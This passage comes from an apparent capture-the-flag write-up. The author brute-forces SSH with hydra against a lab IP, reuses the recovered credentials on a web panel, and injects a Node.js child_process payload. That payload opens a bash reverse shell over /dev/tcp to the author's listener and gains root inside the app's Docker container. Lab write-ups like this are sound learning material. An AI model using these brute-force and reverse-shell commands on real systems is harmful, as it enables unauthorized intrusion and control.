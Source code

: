 ```bash
[REDACTED] #DUH
```
We can start the bruteforce on ssh:
```bash
hydra -L users.txt -P passwords.txt 10.10.54.207 ssh
```
We got a valid result:
	
![ssh valid user](./pic/ssh_pass.png)
	
Before logging in ssh we can also try the login in the webapp.<br>
I tried the claire-r creds and luckily they worked, so i started taking a look at the page, even if i already have the source code from the [RCE](#RCE) section above.<br>
	
![web panel](./pic/web_panel.png)
	
here we can see the injectable field that we saw in the source code.<br>
I tried to send the code injection i found [here](https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet?tab=readme-ov-file#attack-vectors), i started a listener on my local machine:
```bash
pwncat-cs -lp 6666
```
then i send this payload inside that input field:
```js
arguments[1].end(require('child_process').execSync('/bin/bash -c "bash -i >& /dev/tcp/10.8.79.118/6666 0>&1"'))
```
We got a callback and we are root!<br>
But wait it's just the docker container of the webapp as we can see from the pic below:
	